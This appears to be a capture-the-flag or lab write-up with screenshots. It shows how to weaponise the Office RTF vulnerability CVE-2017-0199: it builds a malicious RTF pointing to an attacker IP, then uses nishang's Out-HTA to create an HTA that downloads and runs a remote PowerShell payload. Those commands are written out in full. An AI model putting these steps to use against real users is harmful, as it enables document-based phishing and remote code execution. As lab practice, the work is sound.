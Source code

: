In that will select Quick Parks -> Field 
![[Pasted image 20240509130524.png]]

Everytime user opens the image the words will try to download that image from the URL that we have given.
![[Pasted image 20240509130708.png]]

Now if we think a little more RTF (i.e. rtf format procedures) was mentioned in the note. So will find if there are any exploits related to that.
![[Pasted image 20240509130929.png]]

Will go with the 1st result aka CVE 2017
https://github.com/bhdresh/CVE-2017-0199.git

![[Pasted image 20240509131155.png]]

Payload
```
python cve-2017-0199_toolkit.py -M gen -w singh.rtf -u http://10.10.16.20 -t RTF -x 0
```
we are using -x 0 cuz we don't want any obfuscation
![[Pasted image 20240509131543.png]]

Now we have to generate a Malicious HTA file cuz that the requirement in order to work.
![[Pasted image 20240509131659.png]]

I have clone nishang
https://github.com/samratashok/nishang

```
find . | grep -i hta
```
![[Pasted image 20240509131932.png]]

```
less ./Client/Out-HTA.ps1
```
![[Pasted image 20240509132014.png]]

Will run the powershell
```
pwsh
```

```
.EXAMPLE
PS > Out-HTA -PayloadURL http://192.168.254.1/Get-Information.ps1
```

Will load the PowerShell and execute the Command
![[Pasted image 20240509150308.png]]


```
Out-HTA -PayloadURL http://10.10.16.20/singh.ps1
```
![[Pasted image 20240509150921.png]]
